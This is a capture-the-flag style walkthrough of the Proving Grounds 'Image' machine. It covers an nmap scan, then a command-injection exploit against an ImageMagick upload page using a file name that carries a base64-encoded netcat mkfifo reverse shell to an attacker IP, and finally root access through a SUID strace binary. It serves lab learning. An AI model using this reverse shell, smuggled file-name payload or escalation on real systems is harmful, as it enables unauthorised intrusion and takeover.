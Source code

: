 ```yaml
---
layout: default
title: Image
parent: Proving Grounds Practice - Linux
nav_order: 18
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/image]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.181.178

Nmap scan report for 192.168.181.178

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: ImageMagick Identifier
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.82 seconds

```

# Enumeration

---

## HTTP | 80

There is ImageMagick image upload running on port 80.

Gobuster does not return any other directories or files.

Research for exploits shows an issue reported to the ImageMagick Github.

[ImageMagick CVE-2016-5118 Explanation](https://github.com/ImageMagick/ImageMagick/issues/6339)

The explanation indicates that a regular .png file could be renamed with Base64 encoded reverse shell one-liner for a shell command injection exploit.

# Exploitation

---

Start by just creating a simple file named _en.png_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/image]
└─$ echo -ne test > en.png

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/image]
└─$ cat en.png
test

```

Generate a netcat mkfifo reverse shell one-liner.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.217 9001 >/tmp/f
```

Base64 encode.

```bash
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjE3IDkwMDEgPi90bXAvZg==
```

Then rename (copy) the _en.png_ file with the base64 encoded payload.

```bash
cp en.png '|en"`echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjE3IDkwMDEgPi90bXAvZg== | base64 -d | bash`".png

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/image]
└─$ cp en.png '|en"`echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjE3IDkwMDEgPi90bXAvZg== | base64 -d | bash`".png'

┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/image]
└─$ ls
'|en"`echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjE3IDkwMDEgPi90bXAvZg== | base64 -d | bash`".png'
 en.png


```

Upload the file and get a reverse shell.

![upload](../../../assets/images/ctfs/proving_grounds/image/upload.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/image]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.181.178] 41446
sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

# Post-Exploitation

---

## Check SUID Permissions

Checking SUID permissions for interesting binaries we see _strace_

```bash
www-data@image:/var/www/html$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/strace
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/su
/usr/bin/umount

```

Checking GTFO Bins we see the following:

![gtfo](../../../assets/images/ctfs/proving_grounds/image/gtfo.png)

```bash
www-data@image:/var/www/html$ /usr/bin/strace -o /dev/null /bin/sh -p
/usr/bin/strace -o /dev/null /bin/sh -p
# whoami
whoami
root

```
